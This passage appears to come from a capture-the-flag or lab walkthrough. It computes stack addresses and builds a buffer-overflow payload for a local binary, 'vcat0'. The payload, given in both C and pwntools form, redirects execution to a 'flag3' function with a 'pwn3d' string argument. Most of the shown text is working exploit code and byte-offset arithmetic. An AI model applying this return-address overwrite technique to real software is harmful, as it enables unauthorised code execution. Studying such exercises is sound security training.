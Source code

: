 But pointer-to-`pwn3d` must be the actual address where the `"pwn3d\0"` string lives inside the buffer when `read` places the bytes there. We computed:

* `buf` = `0xbfffd340`
* `"pwn3d"` in the payload starts after: `28 (filler) + 4 (flag3) + 4 (fake ret) + 4 (ptr) = 40 bytes`
  so `"pwn3d"` will be at `buf + 40 = 0xbfffd340 + 40 = 0xbfffd368`.

So the pointer bytes must be little-endian of `0xbfffd368` → `\x68\xd3\xff\xbf`.

Double-check: from your GDB earlier you computed the same: `pwn3d` address `0xbfffd368` → bytes `\x68\xd3\xff\xbf`.

---

## 7) Putting it together — correct payloads (C and Python)

### C (as a raw byte array — do not use string literal truncation)

```c
unsigned char payload[] =
  "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"    /* 28 A's */
  "\x06\x91\x2b\x0b"                /* flag3 address (example: 0x0b2b9106) */
  "BBBB"                            /* fake ret */
  "\x68\xd3\xff\xbf"                /* pointer -> buf+40 == 0xbfffd368 */
  "pwn3d\0";                        /* the string */
```

**Caveat:** this works if the `'flag3'` address `0x0b2b9106` is the correct address you want to return to. Replace with the real address if different.

### Python / pwntools (safer)

```python
from pwn import *
buf = 0xbfffd340            # computed from GDB for this run
flag3_addr = 0x0b2b9106    # the function addr you want to return to
pwn_addr = buf + 40        # where "pwn3d" will be
payload = b"A"*28
payload += p32(flag3_addr) # little-endian
payload += b"BBBB"
payload += p32(pwn_addr)
payload += b"pwn3d\x00"

# send payload:
# run program locally:
p = process("./vcat0")
p.send(payload)
p.interactive()
```

---
